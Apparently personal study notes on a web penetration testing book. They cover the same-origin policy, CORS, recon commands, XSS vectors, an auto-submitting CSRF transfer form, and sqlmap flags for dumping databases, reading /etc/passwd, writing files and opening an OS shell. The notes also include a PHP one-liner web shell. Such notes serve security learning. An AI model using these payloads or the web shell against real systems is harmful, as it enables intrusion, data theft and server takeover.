

# Mastering Modern Web Penetration Testing notes
> Prakhar Prasad

## Ch1 - Common Security Protocols

### SOP

- Suppose you have logged into your email account on one tab. On another tab you have opened up a malicious website.
- If the malicious website tries to exfiltrate data from your email account through some JavaScript code, it will fail because of **same origin policy**.
- Only a website with the same **origin** will be allowed to do that: *protocol, port number, and the hostname of the webpage*.
- SOP is not only for JS but for cookies, AJAX, Flash, and so on. Data stored inside localStorage is also governed by this policy.
- Example: `http://google.com/` and `http://www.google.com/` do not have the same origin since the hostname is different.
- Run [this](code/sop.html) in your browser and take a look at the console.

### Switching origins

- Go to `google.com`
- In the console `document.domain = apple.com`
- **Can only switch origin if target page is a suffix of the current page.**
- So going from `images.google.com` to `google.com` will work. Not the reverse.
- Since `images.google.com` is not a suffix of `google.com` therefore it won't work.
- Also `google.com` to `com` won't work since it is a top-level domain.
- In chrome these protocols are allowed: `http, data, chrome, chrome-extension, https`

### CDM

- Cross-domain messaging.
- Introduced in HTML5, provides `postMessage()`

Sending
```js
receiver.postMessage('Hello','http://example.com')
```

Receiving
```js
window.addEventListener('message',function(event) {
if(event.origin != 'http://sender.com') return;
console.log('Received: ' + event.data,event);
},false);
```

### AJAX

- Allows exchanging data with the server without reloading the page. Works by using the XMLHTTPRequest() method of JS.
- But fetching or sending data to a server or URL which is at a different origin requires `Access-Control-Allow-Origin`
- Example [code](code/ajax.html)

### CORS

- A page running at origin A can send/receive data from a server at origin B.
- Web fonts, CSS, documents, and so on are loaded from different origins.
- Most CDNs which provide resource-hosting functionality typically allow any website or origin to interact with themselves.
- CORS works by adding a new HTTP header that allows the web server to interact with a list of whitelisted domains.
- CORS is browser enforced, the browser looks into the response headers and acts accordingly.



CORS headers
- Access-Control-Allow-Origin: response header
- Access-Control-Allow-Methods: response header
- Origin: request header

Pre-flight request
- Custom HTTP headers are sent
- The body MIME-type is different than text/plain
- The HTTP method is different than GET or POST

## Ch2 - Information Gathering

Google dorks
- backup.sql intext:"SELECT" ext:sql site:net
- Google Hacking for Penetration Testers
```
ext:pdf site:abhaynayar.com
site:abhaynayar.com
inurl:/downloads site:abhaynayar.com
intitle:login site:abhaynayar.com
backup.sql intext:"SELECT" ext:sql
```

Generate wordlists
```
$ cewl abhaynayar.com
```
Cookies, country, headers.
```
$ whatweb abhaynayar.com
```

Computer search engine
```
https://www.shodan.io/search?query=Werkzeug
```

Reverse IP Lookup
```
https://www.yougetsignal.com/tools/web-sites-on-web-server/
```

## Ch3 - XSS

### Reflected

Check if these characters are permitted `"'<>();[]{}AbC`

XSS in href attribute
```
javascript:alert(1)
javascript://%0d%0aalert(1);
javascript://%0d%0aalert(1);//http://derp.com
javascript://%0d%0alert(1);//.com
```

Correct values for JSON responses are typically `text/javascript` or `application/json` if your value is being reflected and if you get `text/html` try for an XSS.

### Stored

Markdown
```
[Hi](javascript:alert(1);)
```
Spoofed IP address
- Use the `X-Forwarded-For` header (used by HTTP proxies)
- `X-Forwarded-For: ">`

### Resources
- http://html5sec.org
- https://www.blueclosure.com/
- https://code.google.com/archive/p/domxsswiki/wikis/Introduction.wiki

## Ch4 - CSRF

JSON

```
<body onload=document.getElementById('xsrf').submit()>
<form id="xsrf" action="transfer" method=post enctype="text/plain">
<input name='{"username":"Attacker","amount":2500,"padding":"' value='garbage"}' type='hidden'>
</form>
```

- Sometimes the CSRF tokens aren't validated, try sending a request without a token.
- Sometimes the CSRF tokens are not mapped to the user, try using another user's token.
- Sometimes the CSRF token's presence is required but the value can be left blank or random string of same length.
- Sometimes the CSRF tokens do not have sufficient randomness, try guessing them.

## Ch5 - SQLi

[sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

- technique: BEUSTQ
- dump:
    - `--current-user`
    - `--dbs`
    - `-D db_name --tables`
    - `-D db_name -T tbl_name --dump`
    - `-D db_name -T tbl_name --columns`
    - `-D db_name -T tbl_name --columns "col_name" --dump`
- `--wizard`
- `--dump-all`
- URL rewriting: uses \* as an injection point.
- Speeding up
    - `--threads 3`
    - `--null-connection`
    - `--keep-alive`
    - `--predict-output`
- Reading files
    - `--privileges`
    - `--file-read=/etc/passwd`
    - Ex. /var/www/config.inc , /var/www/html/config/config.inc.php
- Writing files
    - `--file-write=shell.php`
    - `--file-dest=/var/www/shell-php` 
    - PHP one-liner shell: `<?php system($_GET[1337]); ?>`
- POST requests
    - `-u URL --data="params" -p param_to_test`
    - Save the request and `sqlmap.py -r request.txt -p param_to_test`
- Cookies `--cookie="PHPSESSID=AAAAAAAAAAAAAAAAAAAAAAAA"`
- HTTP auth: `--auth-cred and --auth-type`
- Database shell: `--sql-shell`
- Command shell: `--os-shell` or `--os-cmd "uname -a"`
- Tamper: `--tamper charencode -v3`
- Proxy: `--proxy="https://proxy.example.com:8080"`
- Tor: `--tor`

